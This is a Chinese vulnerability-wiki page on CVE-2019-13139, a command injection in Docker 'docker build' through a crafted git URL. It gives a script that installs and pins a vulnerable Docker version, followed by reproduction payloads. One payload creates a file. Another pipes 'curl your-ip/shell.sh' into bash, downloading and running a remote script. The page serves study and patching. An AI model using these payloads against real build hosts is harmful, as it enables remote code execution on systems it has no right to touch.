



# Docker build 漏洞导致命令执行 CVE-2019-13139

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受害构建环境使用攻击者控制的Git远程URL，旧Docker；实验18.09.3
- 证据范围：URL片段到git upload-pack参数的命令执行示例有结果，不是运行容器内任意用户自动逃逸

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- version元数据错误抽为命令；18.9.4/18.09.4应统一
- port must be80只是示例未指定端口的行为，并非漏洞协议限制
- 脚本改软件源、卸载降级并hold，需隔离实验及回滚
- 缺构建backend/运行身份条件

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

使用 `docker build` 命令构建本地镜像时，支持使用远程 url 参数作为构建环境，并且这个远程构建环境可以是一个 git 仓库。

在 Docker 18.9.4 之前版本中，`docker build` 过程中对 `remoteUrl` 解析存在缺陷，导致了 `remoteUrl` 中的部分字符串会被作为命令执行。

参考链接：

  - https://nvd.nist.gov/vuln/detail/CVE-2019-13139
  - https://staaldraad.github.io/post/2019-07-16-cve-2019-13139-docker-build/
  - https://github.com/Metarget/metarget

## 漏洞影响

```
Docker < 18.9.4
```

## 环境搭建

ubuntu 18.04 使用以下脚本 `install_docker_18.09.03.sh` 安装 Docker 18.9.3：

```
#!/bin/bash
set -e
echo "[*] Removing old Docker versions (if any)..."
sudo apt remove -y docker docker-engine docker.io containerd runc || true

echo "[*] Unholding previously held Docker packages (if any)..."
sudo apt-mark unhold docker-ce docker-ce-cli containerd.io || true

echo "[*] Removing incorrect Docker sources..."
sudo rm -f /etc/apt/sources.list.d/docker.list || true
sudo sed -i '/download.docker.com/d' /etc/apt/sources.list

echo "[*] Adding Tsinghua University Docker mirror GPG key..."
wget -qO - https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu/gpg | sudo apt-key add -

echo "[*] Adding Tsinghua University Docker mirror repository..."
echo "deb [arch=amd64] https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu bionic stable" \
  | sudo tee /etc/apt/sources.list.d/docker.list

echo "[*] Updating package index..."
sudo apt update

echo "[*] Searching for Docker 18.09.3..."
VERSION_STRING=$(apt-cache madison docker-ce | grep 18.09.3 | head -n1 | awk '{print $3}')
if [ -z "$VERSION_STRING" ]; then
  echo "[*] Docker 18.09.3 not found"
  exit 1
fi
echo "[*] Found version: $VERSION_STRING"

echo "[*] Installing Docker version $VERSION_STRING ..."
sudo apt install -y docker-ce=$VERSION_STRING docker-ce-cli=$VERSION_STRING containerd.io

echo "[*] Locking version to prevent automatic updates..."
sudo apt-mark hold docker-ce docker-ce-cli containerd.io

echo "[*] Installation complete, current version:"
docker --version
```




## 漏洞复现

执行相关利用命令，执行结果报错但不影响:

```shell
docker build "git@g.com/a/b#--upload-pack=touch 13139.txt;:"
```

查看命令是否执行成功：

```
ls | grep 13139
------
13139.txt
```




下载远程 shell 文件并执行：

```
# port must be 80
docker build "git@github.com/a/b#--upload-pack=curl -s your-ip/shell.sh|bash;#:"
```




## 漏洞修复

- 升级至最新版本 https://docs.docker.com/engine/release-notes/


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
